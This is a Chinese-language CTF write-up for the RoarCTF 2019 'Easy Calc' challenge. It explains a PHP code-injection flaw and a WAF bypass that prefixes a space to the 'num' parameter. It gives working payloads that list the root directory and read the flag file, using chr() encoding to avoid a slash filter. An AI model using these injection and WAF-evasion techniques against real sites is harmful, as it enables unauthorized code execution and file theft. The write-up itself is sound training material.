





# [RoarCTF 2019]Easy Calc

## Tag

WAF 绕过，命令注入

***

## Writeup

查看源码发现有 calc.php：

访问可以发现源码：

可以注入 str 实现 RCE，几个好用的函数：

- var_dump：把变量的类型和详细内容打印出来
- scandir：扫描目录，类似 ls
- get_file_content：读取文件内容

源码过滤了 `/` 字符，但是我们可以用 `chr(47)` 代替，因此我们可以构造 `num=1;var_dump(scandir(chr(47)))`得到：

联想到 index.php 中有 WAF 限制，因此用 " num" 来代替 "num"（WAF 会认为是有空格的但是解析的时候又会把空格去掉）：

看到里面有一个 f1agg 文件，直接 `num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))` 即可获取 flag：

 